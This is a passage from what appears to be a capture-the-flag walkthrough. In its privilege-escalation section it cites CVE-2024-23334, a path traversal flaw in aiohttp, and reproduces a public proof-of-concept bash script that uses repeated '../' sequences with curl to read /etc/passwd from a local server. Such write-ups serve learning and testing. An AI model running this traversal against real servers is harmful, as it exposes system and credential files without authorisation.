The `web application` itself offered very little options to work with. Therefore we decided to take a closer look on `aiohttp`.

![](images/2024-10-20_11-48_8080_site_monitoring_dashboard.png)

## Privilege Escalation to root

### CVE-2024-23334: Local File Inclusion (LFI) in aiohttp

After a little bit of research we found a already available `Proof of Concept (PoC)` exploit for `CVE-2024-23334` which described a `Local File Inclusion (LFI)` vulnerability in `aiohttp`.

- [https://github.com/z3rObyte/CVE-2024-23334-PoC](https://github.com/z3rObyte/CVE-2024-23334-PoC)

```c
#!/bin/bash

url="http://localhost:8081"
string="../"
payload="/static/"
file="etc/passwd" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```
